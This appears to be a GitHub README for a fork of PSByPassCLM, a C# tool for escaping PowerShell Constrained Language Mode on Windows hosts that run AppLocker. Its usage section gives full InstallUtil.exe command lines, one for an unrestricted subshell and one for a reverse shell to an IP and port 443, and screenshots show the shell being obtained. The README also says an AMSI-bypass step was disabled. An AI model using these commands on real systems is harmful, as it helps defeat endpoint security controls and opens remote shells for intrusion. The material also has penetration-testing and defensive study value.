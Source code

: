 # PSByPassCLM
Bypass for PowerShell Constrained Language Mode
--------------------------------------------------------------------------------
This repo has a minor tweak. 
I have disabled the amsibyscan scan which didnt work in my test lab and stopped the code execution.
The new repo is still capable for creating a powershell console which bypasses Constrained Language mode :)
---------------------------------------------------------------

CREDIT goes to the author.


## Description and references 
This technique might come in handy wherever or whenever you're stuck in a low privilege PS console  
and PowerShell Version 2 engine is not available to perform a [PowerShell Downgrade Attacks](http://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/).

What described above may happen in [modern] Windows OSes (like Windows 10, Windows Server 2016..),  
that nowdays are shipped out with AppLocker and PowerShell Version 5 (v5).

With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools.  
Imho, not beeing able to use core language functionalities (eg, load script in memory and so on..) it's a such a pain.

"PowerShell v5 detects when AppLocker Allow mode is in effect and sets the PowerShell language to Constrained Mode,  
severely limiting the attack surface on the system.  
With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools." [[Source]](https://adsecurity.org/?p=2604)
 
## Build the binary
The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...  
IDE - Visual Studio 2015. You should be able to easily compile and build the binary with the default configuration Debug/X64.
You only may to fix the System.Management.Automation reference that is located in the GAC folder 
```dos
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

## Usage
Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass AppLocker.
Once you've compiled the binary, issue the below command on the target host.  
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-) ..)
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## Testing
Tested on the following environment  (Windows Server 2016)
![Screenshot](img/clm01.JPG?raw=true)

![Screenshot](img/clm02.JPG?raw=true)

PS process in current console
![Screenshot](img/clm03.JPG?raw=true)

Trying to open PS reverse shell
![Screenshot](img/clm04.JPG?raw=true)

Got the shell
![Screenshot](img/clm05.JPG?raw=true)


## Useful Links
https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/  
https://adsecurity.org/?p=2604  
https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/  
https://blog.stealthbits.com/how-attackers-are-bypassing-powershell-protections/  
https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/  


## Author
This code is developed by Chris D. [@padovah4ck](https://twitter.com/padovah4ck) // [LinkedIn](https://www.linkedin.com/in/chrisdanieli/) //   
Use it at your own risk. No responsability on my side
